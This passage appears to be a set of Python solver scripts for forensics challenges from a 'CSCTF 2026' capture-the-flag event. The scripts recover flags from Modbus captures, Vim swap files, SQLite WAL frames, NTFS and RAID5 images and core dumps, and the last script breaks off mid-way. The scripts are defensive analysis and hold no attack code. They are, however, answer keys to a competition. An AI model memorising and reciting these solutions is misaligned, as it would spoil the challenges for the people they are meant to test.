    request PDU || normal-response PDU (no MBAP).
  - W = SHA-256(P || T), P = b"INTERLOCK-WITNESS/1\\x00" (20 bytes).
  - Flag = CSCTF{<lowercase hex W>}

Pure Python (stdlib only): minimal pcapng/pcap + Ethernet/IPv4/TCP
parser, Modbus/TCP ADU framing by MBAP length.

Usage:
    python3 solve.py [interlock.pcapng | interlock-witness.zip]

Verification vector (witness-format.md, unrelated to the capture):
    req 100013000102002a + resp 1000130001
    -> b6e58fa962e382b112eb596e416d5680495fc4bd02141f2389797f194df34786
"""

import hashlib
import os
import struct
import sys
import zipfile

P = b"INTERLOCK-WITNESS/1\x00"
MAPPED = (0x000A, 0x000B, 0x000C, 0x0013, 0x0014)
PERMIT, ISOLATION, PROTECTION = 0x000A, 0x000B, 0x000C
TARGET_ADDRS = (0x0013, 0x0014)


# ---------------------------------------------------------------- pcap I/O

def iter_pcapng_packets(data):
    """Yield raw link-layer packets from a pcapng byte string."""
    if len(data) < 28 or data[:4] != b"\x0a\x0d\x0d\x0a":
        raise ValueError("not a pcapng file")
    # Section Header Block: byte-order magic at offset 8.
    bom = data[8:12]
    if bom == b"\x4d\x3c\x2b\x1a":
        e = "<"
    elif bom == b"\x1a\x2b\x3c\x4d":
        e = ">"
    else:
        raise ValueError("bad pcapng byte-order magic")
    off = 0
    while off + 12 <= len(data):
        btype, blen = struct.unpack_from(e + "II", data, off)
        if blen < 12 or off + blen > len(data):
            break
        body = data[off + 8:off + blen - 4]
        if btype == 0x00000006 and len(body) >= 20:  # Enhanced Packet Block
            caplen = struct.unpack_from(e + "I", body, 12)[0]
            yield body[20:20 + caplen]
        elif btype == 0x00000003 and len(body) >= 4:  # Simple Packet Block
            caplen = struct.unpack_from(e + "I", body, 0)[0]
            yield body[4:4 + caplen]
        # Re-read endianness if a new section starts (single-section here).
        if btype == 0x0A0D0D0A and len(body) >= 4:
            e = "<" if body[:4] == b"\x4d\x3c\x2b\x1a" else ">"
        off += blen


def iter_pcap_packets(data):
    """Yield raw link-layer packets from a classic libpcap byte string."""
    if len(data) < 24:
        raise ValueError("not a pcap file")
    magic = data[:4]
    if magic == b"\xd4\xc3\xb2\xa1":
        e = "<"
    elif magic == b"\xa1\xb2\xc3\xd4":
        e = ">"
    elif magic == b"\x4d\x3c\xb2\xa1":
        e = "<"
    elif magic == b"\xa1\xb2\x3c\x4d":
        e = ">"
    else:
        raise ValueError("bad pcap magic")
    off = 24
    while off + 16 <= len(data):
        _, _, caplen, _ = struct.unpack_from(e + "IIII", data, off)
        off += 16
        yield data[off:off + caplen]
        off += caplen


def tcp_payloads(packets):
    """Yield (direction, payload) in capture order.

    direction is "C2S" (client -> :502) or "S2C" (controller -> client).
    Only the single maintenance flow is relevant; other traffic is skipped.
    """
    for pkt in packets:
        if len(pkt) < 14:
            continue
        off = 14
        ethertype = struct.unpack_from(">H", pkt, 12)[0]
        while ethertype in (0x8100, 0x88A8) and len(pkt) >= off + 4:
            ethertype = struct.unpack_from(">H", pkt, off + 2)[0]
            off += 4
        if ethertype != 0x0800 or len(pkt) < off + 20:
            continue
        ihl = (pkt[off] & 0x0F) * 4
        if pkt[off + 9] != 6:  # not TCP
            continue
        total = struct.unpack_from(">H", pkt, off + 2)[0]
        ip_end = off + total if total else len(pkt)
        tcp = off + ihl
        if len(pkt) < tcp + 20:
            continue
        sport, dport = struct.unpack_from(">HH", pkt, tcp)
        doff = ((pkt[tcp + 12] >> 4) & 0xF) * 4
        payload = pkt[tcp + doff:ip_end]
        if not payload:
            continue
        if dport == 502:
            yield "C2S", payload
        elif sport == 502:
            yield "S2C", payload


def modbus_adus(packets):
    """Frame Modbus/TCP ADUs per direction by MBAP length.

    Returns a list of events (order, direction, tid, proto, unit, pdu)
    in capture order. A per-direction buffer tolerates ADUs split or
    coalesced across TCP segments.
    """
    buffers = {"C2S": bytearray(), "S2C": bytearray()}
    events = []
    order = 0
    for direction, payload in tcp_payloads(packets):
        buf = buffers[direction]
        buf.extend(payload)
        while len(buf) >= 7:
            _, _, length = struct.unpack_from(">HHH", buf, 0)
            adu_len = 6 + length  # MBAP header (6) + length field content
            if length < 2 or adu_len > 260 + 7:
                raise ValueError(f"implausible MBAP length {length}")
            if len(buf) < adu_len:
                break
            tid, proto = struct.unpack_from(">HH", buf, 0)
            unit = buf[6]
            pdu = bytes(buf[7:adu_len])
            del buf[:adu_len]
            events.append((order, direction, tid, proto, unit, pdu))
            order += 1
    return events


# ---------------------------------------------------------------- policy

def reconstruct(events):
    """Apply the response-cell policy; return (unsafe, stats).

    unsafe entries: (tid, request_pdu, response_pdu, state_before)
    in normal-response order.
    """
    state = {addr: None for addr in MAPPED}
    requests = {}       # tid -> (proto, unit, pdu) for pending FC16
    last_request = None  # (tid, proto, unit, pdu) most recent C2S ADU
    unsafe = []
    stats = {"fc03_ok": 0, "fc03_rejected": 0,
             "fc16_ok": 0, "fc16_rejected": 0, "targets": 0}

    for _, direction, tid, proto, unit, pdu in events:
        if not pdu:
            continue
        fc = pdu[0]
        if direction == "C2S":
            last_request = (tid, proto, unit, pdu)
            if fc == 0x10 and len(pdu) >= 6:
                requests[tid] = (proto, unit, pdu)
            continue

        # --- S2C: FC03 observation -------------------------------------
        if fc == 0x03:
            req = last_request
            ok = (
                req is not None
                and req[0] == tid and req[1] == proto and req[2] == unit
                and proto == 0 and unit == 1
                and req[3][0] == 0x03 and len(req[3]) >= 5 and len(pdu) >= 2
            )
            if ok:
                start, qty = struct.unpack_from(">HH", req[3], 1)
                ok = pdu[1] == 2 * qty and len(pdu) == 2 + pdu[1]
            if not ok:
                stats["fc03_rejected"] += 1
                continue
            stats["fc03_ok"] += 1
            start, qty = struct.unpack_from(">HH", req[3], 1)
            for i in range(qty):
                addr = start + i
                if addr in state:
                    state[addr] = struct.unpack_from(">H", pdu, 2 + 2 * i)[0]
            continue

        # --- S2C: FC16 normal / exception response ----------------------
        if fc in (0x10, 0x90):
            req = requests.pop(tid, None)
            if fc == 0x90 or req is None:
                stats["fc16_rejected"] += 1
                continue  # exceptions never change state
            rproto, runit, rpdu = req
            ok = (
                rproto == proto and runit == unit
                and proto == 0 and unit == 1
                and len(pdu) == 5 and len(rpdu) >= 6
                and pdu[1:5] == rpdu[1:5]  # echoes start + quantity
            )
            if not ok:
                stats["fc16_rejected"] += 1
                continue
            stats["fc16_ok"] += 1
            start, qty = struct.unpack_from(">HH", rpdu, 1)
            byte_count = rpdu[5]
            values = [
                struct.unpack_from(">H", rpdu, 6 + 2 * i)[0]
                for i in range(qty)
                if 6 + 2 * i + 2 <= 6 + byte_count
            ]
            is_target = qty == 1 and start in TARGET_ADDRS
            if is_target:
                stats["targets"] += 1
                safe = (
                    state[PERMIT] == 1
                    and state[ISOLATION] == 1
                    and state[PROTECTION] == 1
                )
                if not safe:
                    unsafe.append((tid, rpdu, bytes(pdu), dict(state)))
            # Accepted FC16 updates apply after the normal response.
            for i, value in enumerate(values):
                if start + i in state:
                    state[start + i] = value
            continue
        # Other S2C functions play no role in the published policy.

    return unsafe, stats


# ---------------------------------------------------------------- main

def load_capture_bytes(argv):
    candidates = []
    if len(argv) > 1:
        candidates.append(argv[1])
    candidates += [
        "files/interlock.pcapng",
        "files/interlock-witness.zip",
        "../interlock-witness.zip",
        "docs/2026-chronos-csctf/forensics/interlock-witness.zip",
        "/tmp/opencode/interlock/interlock.pcapng",
    ]
    for path in candidates:
        if path and os.path.isfile(path):
            print(f"[*] Loading {path}")
            with open(path, "rb") as fh:
                blob = fh.read()
            if path.lower().endswith(".zip"):
                with zipfile.ZipFile(path) as zf:
                    return zf.read("interlock.pcapng")
            return blob
    print("[-] Provide interlock.pcapng or interlock-witness.zip")
    sys.exit(1)


def main():
    # Witness-format verification vector (format check only).
    vec_t = bytes.fromhex("100013000102002a" "1000130001")
    vec_w = hashlib.sha256(P + vec_t).hexdigest()
    assert vec_w == "b6e58fa962e382b112eb596e416d5680495fc4bd02141f2389797f194df34786", vec_w
    print(f"[*] Vector OK    : {vec_w}")

    blob = load_capture_bytes(sys.argv)
    if blob[:4] == b"\x0a\x0d\x0d\x0a":
        packets = iter_pcapng_packets(blob)
    else:
        packets = iter_pcap_packets(blob)
    events = modbus_adus(packets)
    print(f"[*] Modbus ADUs  : {len(events)}")

    unsafe, stats = reconstruct(events)
    print(f"[*] FC03 accepted: {stats['fc03_ok']} "
          f"(rejected {stats['fc03_rejected']})")
    print(f"[*] FC16 accepted: {stats['fc16_ok']} "
          f"(rejected {stats['fc16_rejected']}), targets {stats['targets']}")
    print(f"[*] Unsafe targets: {len(unsafe)} (normal-response order)")
    for tid, rpdu, spdu, before in unsafe:
        print(f"    TID {tid:3d} permit={before[PERMIT]} "
              f"isolation={before[ISOLATION]} protection={before[PROTECTION]} "
              f"req={rpdu.hex()} resp={spdu.hex()}")

    t = b"".join(rpdu + spdu for _, rpdu, spdu, _ in unsafe)
    w = hashlib.sha256(P + t).hexdigest()
    print(f"[*] T ({len(t)} bytes): {t.hex()}")
    print(f"\n[+] W            : {w}")
    print(f"[+] FLAG         : CSCTF{{{w}}}")


if __name__ == "__main__":
    main()
~~~~

### Last Buffer — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""last-buffer: pick the Vim swap from the shell that died in the crash window, decode its proof.

Usage: python3 -I solve.py ../files
Pure data parsing (layout from vim-swap-layout.md): nothing is opened in Vim.
"""
import base64, hashlib, json, struct, sys
from pathlib import Path

d = Path(sys.argv[1])
ctx = json.loads((d / "case-context.json").read_text())
saved_sha = hashlib.sha256((d / ctx["saved_file"]).read_bytes()).hexdigest()
audit = [json.loads(l) for l in (d / "audit-timeline.jsonl").read_text().splitlines()]
# pid that ended with an abnormal exit (SIGHUP) on the target tty inside the crash window
crash_pid = next(e["pid"] for e in audit if e["event"] == "ANOM_ABEND" and e["tty"] == ctx["target_tty"])


def swap_lines(data):
    """Lines of every data block (ID 0x6461): count @16 (u64), line-start indexes @24 (u32)."""
    out = []
    for off in range(0, len(data), 4096):
        blk = data[off:off + 4096]
        if len(blk) < 24 or struct.unpack("<H", blk[:2])[0] != 0x6461:
            continue
        n = struct.unpack("<Q", blk[16:24])[0]
        idx = struct.unpack(f"<{n}I", blk[24:24 + 4 * n])
        out += [blk[i:blk.index(b"\0", i)].decode() for i in idx]
    return out


for swp in sorted(d.glob("*.sw?")):
    data = swp.read_bytes()
    pid = struct.unpack("<I", data[24:28])[0]
    lines = swap_lines(data)
    kv = dict(l.split(": ", 1) for l in lines if ": " in l)
    print(f"{swp.name}: pid={pid} revision={kv.get('revision_id')} base_sha_matches_saved="
          f"{kv.get('base_file_sha256') == saved_sha}", file=sys.stderr)
    if pid == crash_pid and kv.get("base_file_sha256") == saved_sha:
        b = kv["authorization_b64"]
        print(base64.urlsafe_b64decode(b + "=" * (-len(b) % 4)).decode())
~~~~

### Last Commit — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""last-commit: rebuild the LR-731 export at the QUEUED -> COMPLETED commit of a SQLite WAL.

Usage: python3 -I solve.py ../files
The originals are only read; every state is built as a plain DB image (no -wal/-shm)
in a temporary directory, so SQLite never touches the evidence.
"""
import csv, hashlib, sqlite3, struct, sys, tempfile
from pathlib import Path

d = Path(sys.argv[1])
db = d / "registry.sqlite"
base = db.read_bytes()
wal = (d / "registry.sqlite-wal").read_bytes()

# --- WAL header + frames; validate salts and the cumulative checksum -----------------
magic, _ver, ps, _seq, salt1, salt2, ck1, ck2 = struct.unpack(">8I", wal[:32])
endian = ">2I" if magic & 1 else "<2I"           # checksum word order follows the magic


def cksum(buf, a, b):
    for i in range(0, len(buf), 8):
        x, y = struct.unpack(endian, buf[i:i + 8])
        a = (a + x + b) & 0xFFFFFFFF
        b = (b + y + a) & 0xFFFFFFFF
    return a, b


a, b = cksum(wal[:24], 0, 0)
assert (a, b) == (ck1, ck2), "bad WAL header checksum"
frames, off = [], 32
while off + 24 + ps <= len(wal):
    pgno, commit, s1, s2, c1, c2 = struct.unpack(">6I", wal[off:off + 24])
    page = wal[off + 24:off + 24 + ps]
    a, b = cksum(wal[off:off + 8], a, b)
    a, b = cksum(page, a, b)
    if (s1, s2) != (salt1, salt2) or (a, b) != (c1, c2):
        break                                      # end of the valid epoch
    frames.append((pgno, commit, page))
    off += 24 + ps
print(f"{len(frames)} valid frames, commits at {[i for i, f in enumerate(frames) if f[1]]}", file=sys.stderr)

tmp = Path(tempfile.mkdtemp())
manifest = [(r["job_id"], int(r["position"]), int(r["parcel_id"]))
            for r in csv.DictReader(open(d / "delivery.csv", newline=""))]
QUERY = """SELECT m.position,p.parcel_id,p.district,p.plot_ref,h.registry_ref,t.interest_bps,t.instrument_ref
FROM manifest AS m JOIN parcel AS p ON p.parcel_id=m.parcel_id
JOIN title AS t ON t.parcel_id=p.parcel_id JOIN holder AS h ON h.holder_id=t.holder_id
WHERE m.job_id='LR-731' ORDER BY m.position ASC,h.registry_ref COLLATE BINARY ASC"""
HEADER = "position\tparcel_id\tdistrict\tplot_ref\tregistry_ref\tinterest_bps\tinstrument_ref\n"


def export_at(n):
    """Registry state after frames[:n+1] are applied (n must be a commit frame)."""
    img = bytearray(base)
    for pgno, _c, page in frames[:n + 1]:
        img[(pgno - 1) * ps:pgno * ps] = page
    path = tmp / f"state{n}.db"
    path.write_bytes(img)
    c = sqlite3.connect(path)
    state = dict(c.execute("SELECT job_id,state FROM export_job").fetchall())
    c.execute("CREATE TEMP TABLE manifest(job_id TEXT, position INTEGER, parcel_id INTEGER)")
    c.executemany("INSERT INTO manifest VALUES(?,?,?)", manifest)
    out = HEADER + "".join("\t".join(map(str, r)) + "\n" for r in c.execute(QUERY))
    return state.get("LR-731"), hashlib.sha256(out.encode()).hexdigest()


results = [(i, *export_at(i)) for i, f in enumerate(frames) if f[1]]
for i, st, h in results:
    print(f"commit frame {i}: LR-731={st} export_sha256={h}", file=sys.stderr)
# The transition commit: first commit where the job is COMPLETED
target = next(h for i, st, h in results if st == "COMPLETED")
print("CSCTF{last_commit_" + target + "}")
~~~~

### Night Clerk — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Night Clerk (forensics/easy)
Recover a hidden coordination message from a seized NTFS stick image.

Steps:
  1. Extract night_audit.docx from the NTFS image (inode 66, deleted).
  2. Parse the tracked insertion (w:ins) to get the hex-encoded ciphertext.
  3. Brute-force single-byte XOR keys; the correct key yields a valid CSCTF{...} flag.

Usage:
    python3 solve.py [path/to/terminal.dd]
"""

import sys
import subprocess
import zipfile
import xml.etree.ElementTree as ET

IMG = sys.argv[1] if len(sys.argv) > 1 else "files/terminal.dd"
DOCX_INODE = 66
NS = {"w": "http://schemas.openxmlformats.org/wordprocessingml/2006/main"}

# Step 1: extract docx bytes from NTFS image
print("[*] Extracting night_audit.docx from NTFS image...")
result = subprocess.run(
    ["icat", IMG, str(DOCX_INODE)],
    capture_output=True,
)
if result.returncode != 0:
    print(f"[-] icat failed: {result.stderr.decode()}")
    sys.exit(1)
docx_bytes = result.stdout
print(f"    {len(docx_bytes)} bytes extracted")

# Step 2: parse tracked insertion from word/document.xml
print("[*] Parsing tracked insertions...")
import io
z = zipfile.ZipFile(io.BytesIO(docx_bytes))
doc_xml = z.read("word/document.xml")
root = ET.fromstring(doc_xml)
insertions = root.findall(".//w:ins", NS)
print(f"    Found {len(insertions)} insertion(s)")

hex_ciphertext = None
for ins in insertions:
    for t in ins.findall(".//w:t", NS):
        if t.text and all(c in "0123456789abcdefABCDEF" for c in t.text):
            hex_ciphertext = t.text
            print(f"    Ciphertext (hex): {hex_ciphertext}")

if not hex_ciphertext:
    print("[-] No hex ciphertext found in tracked insertions.")
    sys.exit(1)

ciphertext = bytes.fromhex(hex_ciphertext)

# Step 3: brute-force single-byte XOR key
print("[*] Brute-forcing XOR key...")
for key in range(256):
    plaintext = bytes([b ^ key for b in ciphertext])
    try:
        s = plaintext.decode("ascii")
        if s.startswith("CSCTF{") and s.endswith("}"):
            print(f"\n[+] Key   : {key} (0x{key:02x})")
            print(f"[+] Flag  : {s}")
            sys.exit(0)
    except UnicodeDecodeError:
        pass

print("[-] No valid flag found with single-byte XOR.")
sys.exit(1)
~~~~

### Operation Dawn: Relay Snapshot — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Operation Dawn: Relay Snapshot (forensics/easy)
Recover the standing order flag from a Linux x86-64 ELF core dump.

The process held a singly-linked list of string-fragment nodes in heap memory.
Each node:
    struct Node {
        struct Node *next;   // 8 bytes — VA of next node, NULL = tail
        uint32_t     len;    // 4 bytes
        char         data[]; // len bytes, null-padded to next 4-byte boundary
    };
Each heap object is wrapped in a container:
    struct Container {
        uint64_t type;  // = 0x31
        Node     node;  // embedded — its VA = container_va + 8
    };

The forged/decoy data creates multiple chains. The chain rooted at the container
whose data field is "CSCTF" reconstructs the flag.

Usage:
    python3 solve.py [path/to/relay.core]
"""

import sys
import struct

CORE = sys.argv[1] if len(sys.argv) > 1 else "files/relay.core"
CONTAINER_TYPE = 0x31


def load_segments(data):
    """Return list of (vaddr, filesz, file_offset) for PT_LOAD segments."""
    e_phoff     = struct.unpack_from("<Q", data, 0x20)[0]
    e_phentsize = struct.unpack_from("<H", data, 0x36)[0]
    e_phnum     = struct.unpack_from("<H", data, 0x38)[0]
    segs = []
    for i in range(e_phnum):
        off = e_phoff + i * e_phentsize
        p_type   = struct.unpack_from("<I", data, off)[0]
        p_offset = struct.unpack_from("<Q", data, off + 8)[0]
        p_vaddr  = struct.unpack_from("<Q", data, off + 16)[0]
        p_filesz = struct.unpack_from("<Q", data, off + 32)[0]
        if p_type == 1:  # PT_LOAD
            segs.append((p_vaddr, p_filesz, p_offset))
    return segs


def va_to_file(va, segs):
    if not va:
        return None
    for vaddr, filesz, foffset in segs:
        if vaddr <= va < vaddr + filesz:
            return foffset + (va - vaddr)
    return None


def scan_containers(data, segs):
    """Scan all PT_LOAD segments for container objects (type == 0x31)."""
    nodes = {}  # node_va -> (next_node_va, string)
    for vaddr, filesz, foffset in segs:
        region = data[foffset: foffset + filesz]
        for i in range(0, len(region) - 48, 8):
            if struct.unpack_from("<Q", region, i)[0] != CONTAINER_TYPE:
                continue
            next_va = struct.unpack_from("<Q", region, i + 8)[0]
            slen    = struct.unpack_from("<I", region, i + 16)[0]
            if slen == 0 or slen > 32:
                continue
            s = region[i + 20: i + 20 + slen]
            try:
                s = s.decode("ascii")
            except UnicodeDecodeError:
                continue
            node_va = (vaddr + i) + 8  # node starts 8 bytes into the container
            nodes[node_va] = (next_va, s)
    return nodes


def follow_chain(start_va, nodes):
    parts = []
    va = start_va
    seen = set()
    while va and va not in seen:
        if va not in nodes:
            break
        seen.add(va)
        nxt, s = nodes[va]
        parts.append(s)
        va = nxt
    return "".join(parts)


def main():
    print(f"[*] Loading {CORE}")
    with open(CORE, "rb") as f:
        data = f.read()

    segs = load_segments(data)
    print(f"[*] {len(segs)} PT_LOAD segments")

    nodes = scan_containers(data, segs)
    print(f"[*] {len(nodes)} container nodes found")

    # Find heads (nodes not pointed to by any other node)
    all_nexts = {nxt for nxt, _ in nodes.values()}
    heads = [va for va in nodes if va not in all_nexts]
    print(f"[*] {len(heads)} chain head(s)")

    for head_va in sorted(heads):
        chain = follow_chain(head_va, nodes)
        _, first_s = nodes[head_va]
        if chain.startswith("CSCTF{") and chain.endswith("}"):
            print(f"\n[+] FLAG chain at {head_va:#x}: {chain}")
            return

    # Fallback: print all chains
    print("\n[-] No direct CSCTF chain found, dumping all:")
    for head_va in sorted(heads):
        chain = follow_chain(head_va, nodes)
        print(f"  {head_va:#x}: {chain}")


if __name__ == "__main__":
    main()
~~~~

### Operation Dawn: The Burnt Server — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Operation Dawn: The Burnt Server (forensics/easy)
Recover the train movement register from a 3-disk RAID5 with one disk missing.

Array (from SALVAGE.txt):
  - 3 identical drives, slot 1 (disk1.img) burnt, slots 0 and 2 imaged.
  - No controller metadata -> RAID settings unknown.

Recovery (found by brute force):
  - RAID5, 3 disks, chunk 64 KiB, parity rotating right (p = stripe % 3).
  - Stripe 0 parity on disk0, so the FAT boot sector (on missing disk1)
    is rebuilt as disk0 ^ disk2.
  - Filesystem is FAT16 (512 B/sector, 1 sector/cluster), root dir at 0x8200.
  - TRAIN.GZ is deleted (0xE5 entry, start cluster 16, 16599 bytes) so its
    FAT chain is zeroed; the file is contiguous, carve clusters 16..48.
  - gzip decompress -> WHITE VALLEY HOSPITAL train register with CSCTF{...}.

Usage:
    python3 solve.py [path/to/server-remains.tar]
    python3 solve.py /tmp/opencode/burnt/disk0.img /tmp/opencode/burnt/disk2.img
"""

import sys
import tarfile
import struct
import gzip
import re
import os

CHUNK = 65536  # 64 KiB — only chunk size yielding a valid FAT root dir
MISSING = 1    # slot 1 burnt


def load_disks(args):
    if len(args) == 3 and os.path.isfile(args[1]) and os.path.isfile(args[2]):
        with open(args[1], "rb") as f:
            d0 = f.read()
        with open(args[2], "rb") as f:
            d2 = f.read()
        return d0, d2
    tar_path = args[1] if len(args) > 1 else None
    candidates = [
        tar_path,
        "files/server-remains.tar",
        "../server-remains.tar",
        "docs/2026-chronos-csctf/forensics/server-remains.tar",
    ]
    for p in candidates:
        if p and os.path.isfile(p):
            print(f"[*] Opening {p}")
            with tarfile.open(p) as tf:
                d0 = tf.extractfile("disk0.img").read()
                d2 = tf.extractfile("disk2.img").read()
            return d0, d2
    print("[-] Provide server-remains.tar or disk0.img disk2.img")
    sys.exit(1)


def raid5_reconstruct(d0, d2, chunk=CHUNK):
    """3-disk RAID5, missing middle disk, parity p = stripe % 3 (right)."""
    nstripes = len(d0) // chunk
    out = bytearray()
    for s in range(nstripes):
        p = s % 3
        c0 = d0[s * chunk:(s + 1) * chunk]
        c2 = d2[s * chunk:(s + 1) * chunk]
        if p != MISSING:
            # missing chunk is data -> XOR parity + surviving data
            c1 = bytes(a ^ b for a, b in zip(c0, c2))
        else:
            c1 = None  # parity missing, both survivors are data
        chunks = {0: c0, 1: c1, 2: c2}
        for d in (0, 1, 2):
            if d == p:
                continue
            chunk_data = chunks[d]
            if chunk_data is None:  # pragma: no cover
                raise RuntimeError(f"stripe {s}: missing data chunk")
            out.extend(chunk_data)
    return bytes(out)


def main():
    d0, d2 = load_disks(sys.argv)
    print(f"[*] disk0 {len(d0)} bytes, disk2 {len(d2)} bytes")
    img = raid5_reconstruct(d0, d2)
    print(f"[*] Reconstructed linear image {len(img)} bytes")

    # Validate FAT boot sector
    assert img[510] == 0x55 and img[511] == 0xAA, "no boot signature"
    assert img[0] == 0xEB and img[2] == 0x90 and b"FAT" in img[:90], "no FAT boot"
    bps = struct.unpack("<H", img[11:13])[0]
    rsvd = struct.unpack("<H", img[14:16])[0]
    nfat = img[16]
    fatsz = struct.unpack("<H", img[22:24])[0]
    data_start = rsvd + nfat * fatsz + 32  # 32 root-dir sectors (512 entries)
    print(f"[*] FAT16 BPS={bps} reserved={rsvd} FATs={nfat} FATsz={fatsz} "
          f"data_start_sec={data_start}")

    root_off = (rsvd + nfat * fatsz) * bps
    train_start = train_size = None
    for i in range(16):
        e = img[root_off + i * 32:root_off + (i + 1) * 32]
        if e[0] == 0x00:
            continue
        name = e[0:8].decode(errors="replace")
        ext = e[8:11].decode(errors="replace")
        start = struct.unpack("<H", e[26:28])[0]
        size = struct.unpack("<I", e[28:32])[0]
        flag = "DELETED " if e[0] == 0xE5 else ""
        print(f"    root[{i}] {flag}'{name}'.'{ext}' start={start} size={size}")
        if e[0] == 0xE5 and e[1:5] == b"RAIN":  # _TRAIN.GZ
            train_start, train_size = start, size

    assert train_start == 16, f"unexpected TRAIN start {train_start}"
    off = (data_start + (train_start - 2)) * bps
    raw = img[off:off + train_size]
    assert raw[:2] == b"\x1f\x8b", "no gzip magic at cluster 16"
    print(f"[*] TRAIN.GZ at fs offset 0x{off:x} ({train_size} bytes), gzip magic OK")

    dec = gzip.decompress(raw)
    print(f"[*] Decompressed {len(dec)} bytes")
    m = re.findall(rb"CSCTF\{[^}]+\}", dec)
    assert m, "no flag in decompressed register"
    for f in m:
        print(f"\n[+] Flag  : {f.decode()}")
    # show context
    text = dec.decode(errors="replace")
    for i, line in enumerate(text.splitlines()):
        if "CSCTF" in line:
            print(f"[+] Line {i}: {line.strip()}")


if __name__ == "__main__":
    main()
~~~~

### Operation Dawn: The Relay Tap — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""
CSCTF 2026 — Operation Dawn: The Relay Tap (forensics/easy)
Decrypt the standing order from a captured ARLY relay session.

ARLY frame format (self-described in the capture):
  "ARLY" | type(1 byte) | len(2 bytes, big-endian) | body
  Types:
    0 = descriptor (plaintext, self-describing)
    1 = client_nonce (16 bytes)
    2 = server_nonce (16 bytes)
    3 = order (encrypted)

Key derivation:
  key = SHA-256(client_nonce || server_nonce)

Keystream:
  ks = SHA-256(key || uint32be(0)) || SHA-256(key || uint32be(1)) || ...
       truncated to len(order_body)

Decryption:
  order = order_body XOR ks

Usage:
    python3 solve.py [path/to/relay-tap.pcap]
"""

import sys
import struct
import hashlib

# Try to use scapy or dpkt to read pcap; fall back to manual parse
PCAP = sys.argv[1] if len(sys.argv) > 1 else "files/relay-tap.pcap"

# ── PCAP reader (no external dependencies) ───────────────────────────────────
def read_pcap_payloads(path):
    """Yield raw TCP payload bytes for each packet, in order."""
    with open(path, "rb") as f:
        # Global header
        magic = f.read(4)
        if magic == b"\xd4\xc3\xb2\xa1":
            endian = "<"
        elif magic == b"\xa1\xb2\xc3\xd4":
            endian = ">"
        else:
            raise ValueError(f"Not a pcap file (magic={magic.hex()})")
        f.read(20)  # skip rest of global header

        while True:
            rec_hdr = f.read(16)
            if len(rec_hdr) < 16:
                break
            inc_len = struct.unpack(endian + "I", rec_hdr[8:12])[0]
            pkt = f.read(inc_len)
            if len(pkt) < inc_len:
                break

            # Ethernet (14) + IP (variable) + TCP (variable)
            if len(pkt) < 14:
                continue
            ethertype = struct.unpack(">H", pkt[12:14])[0]
            if ethertype != 0x0800:  # IPv4 only
                continue
            ip_ihl = (pkt[14] & 0x0F) * 4
            ip_proto = pkt[23]
            if ip_proto != 6:  # TCP only
                continue
            tcp_off = 14 + ip_ihl
            if len(pkt) < tcp_off + 20:
                continue
            tcp_data_off = ((pkt[tcp_off + 12] >> 4) & 0xF) * 4
            payload_off = tcp_off + tcp_data_off
            payload = pkt[payload_off:]
            if payload:
                yield payload


# ── ARLY frame parser ─────────────────────────────────────────────────────────
MAGIC = b"ARLY"

def parse_frames(data: bytes):
    frames = []
    i = 0
    while i < len(data) - 6:
        if data[i:i+4] != MAGIC:
            i += 1
            continue
        ftype = data[i+4]
        flen = struct.unpack(">H", data[i+5:i+7])[0]
        body = data[i+7:i+7+flen]
        if len(body) == flen:
            frames.append((ftype, body))
        i += 7 + flen
    return frames


# ── Main ──────────────────────────────────────────────────────────────────────
def main():
    # Collect all TCP payloads that contain ARLY frames
    client_nonce = None
    server_nonce = None
    order_body   = None

    print(f"[*] Reading {PCAP}")
    all_payload = b""
    for payload in read_pcap_payloads(PCAP):
        if MAGIC in payload:
            all_payload += payload

    frames = parse_frames(all_payload)
    print(f"[*] Parsed {len(frames)} ARLY frame(s)")

    for ftype, body in frames:
        if ftype == 0:
            print(f"    [0] descriptor: {body.decode('ascii', errors='replace')[:80]}...")
        elif ftype == 1:
            client_nonce = body
            print(f"    [1] client_nonce: {body.hex()}")
        elif ftype == 2:
            server_nonce = body
            print(f"    [2] server_nonce: {body.hex()}")
        elif ftype == 3:
            if order_body is None:
                order_body = body   # keep the FIRST order frame (legitimate)
                print(f"    [3] order (enc, first/legitimate): {body.hex()}")
            else:
                print(f"    [3] order (enc, duplicate/forged): {body.hex()} — ignored")

    if not all([client_nonce, server_nonce, order_body]):
        print("[-] Missing required frames.")
        sys.exit(1)

    # Key derivation
    key = hashlib.sha256(client_nonce + server_nonce).digest()
    print(f"\n[*] key = {key.hex()}")

    # Keystream generation
    ks = b""
    i = 0
    while len(ks) < len(order_body):
        ks += hashlib.sha256(key + struct.pack(">I", i)).digest()
        i += 1
    ks = ks[:len(order_body)]

    # Decrypt
    plaintext = bytes(a ^ b for a, b in zip(order_body, ks))
    try:
        flag = plaintext.decode("ascii")
        print(f"\n[+] Decrypted order: {flag}")
    except UnicodeDecodeError:
        print(f"[-] Non-ASCII output: {plaintext.hex()}")
        sys.exit(1)

if __name__ == "__main__":
    main()
~~~~

### Phantom Drift — `solve/solve.py`

~~~~python
#!/usr/bin/env python3
"""phantom-drift: derive the flag from the approved vs. diverted waypoint.

Usage: python3 -I solve.py ../files
Pure data analysis: the decompiled sources are only read (base64-decoded) and compared.
"""
import base64, hashlib, json, math, re, sys
from pathlib import Path

d = Path(sys.argv[1])

# 0. The .decompiled files carry the source as base64 (to read, not to run).
for name in ("drone_control.decompiled", "command_backend.decompiled"):
    src = base64.b64decode(re.search(r'DECODED_CONTENT = "([^"]+)"', (d / name).read_text()).group(1)).decode()
    print(f"{name}: {len(src)} chars of source", file=sys.stderr)

# 1. Approved waypoint (manifest, also hard-coded in both validators).
man = json.loads((d / "mission_manifest.json").read_text())
a_lat, a_lon = man["approved_waypoint_lat"], man["approved_waypoint_lon"]

# 2. The command that was actually sent: one JSON object holding the same fields twice,
#    snake_case (approved values) and PascalCase (diverted values).
tel = json.loads((d / "telemetry_logs.json").read_text())
cmd = next(r for r in tel["readings"] if r.get("phase") == "waypoint_update")
assert (cmd["waypoint_lat"], cmd["waypoint_lon"]) == (a_lat, a_lon)
b_lat, b_lon = cmd["WaypointLat"], cmd["WaypointLon"]
print(f"approved=({a_lat},{a_lon}) diverted=({b_lat},{b_lon})", file=sys.stderr)

